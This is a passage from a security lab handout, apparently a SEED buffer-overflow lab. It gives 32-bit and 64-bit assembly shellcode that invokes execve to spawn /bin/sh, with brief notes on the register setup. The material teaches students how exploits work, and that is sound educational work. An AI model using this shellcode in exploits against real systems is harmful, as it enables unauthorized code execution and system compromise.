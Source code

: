 explanation is provided in the SEED book). The best way to write a shellcode is to use assembly code. In this lab, we only provide the binary version of a shellcode, without explaining how it works (it is non-trivial). If you are interested in how exactly shellcode works and you want to write a shellcode from scratch, you can learn that from a separate SEED lab called *Shellcode* Lab.

### 3.2 32-bit Shellcode
```
; Store the command on stack
xor eax, eax
push eax
push "//sh"
push "/bin"
mov ebx, esp     ; ebx --> "/bin//sh": execve()’s 1st argument

; Construct the argument array argv[]
push eax         ; argv[1] = 0
push ebx         ; argv[0] --> "/bin//sh"
mov ecx, esp     ; ecx --> argv[]: execve()’s 2nd argument

; For environment variable
xor edx, edx     ; edx = 0: execve()’s 3rd argument

; Invoke execve()
xor eax, eax     ;
mov al, 0x0b     ; execve()’s system call number
int 0x80
```
The shellcode above basically invokes the `execve()` system call to execute `/bin/sh`. In a separate
SEED lab, the Shellcode lab, we guide students to write shellcode from scratch. Here we only give a very brief explanation.

- The third instruction pushes"`//sh`", rather than "`/sh`" into the stack. This is because we need a
    32-bit number here, and"`/sh`" has only 24 bits. Fortunately, "//" is equivalent to"/", so we can
    get away with a double slash symbol.
- We need to pass three arguments to `execve()` via the `ebx`, `ecx` and `edx` registers, respectively. The majority of the shellcode basically constructs the content for these three arguments.
- The system call `execve()` is called when we set `al` to `0x0b`, and execute "`int 0x80`".

### 3.3 64-Bit Shellcode

We provide a sample 64-bit shellcode in the following. It is quite similar to the 32-bit shellcode, except that the names of the registers are different and the registers used by the `execve()` system call are also different. Some explanation of the code is given in the comment section, and we will not provide detailed explanation on the shellcode.
```
xor rdx, rdx         ; rdx = 0: execve()’s 3rd argument
push rdx
mov rax, ’/bin//sh’  ; the command we want to run
push rax             ;
mov rdi, rsp         ; rdi --> "/bin//sh": execve()’s 1st argument
push rdx             ; argv[1] = 0
push rdi             ; argv[0] --> "/bin//sh"
mov rsi, rsp         ; rsi --> argv[]: execve()’s 2nd argument
xor rax, rax
mov al, 0x3b         ; execve()’s system call number
syscall
```
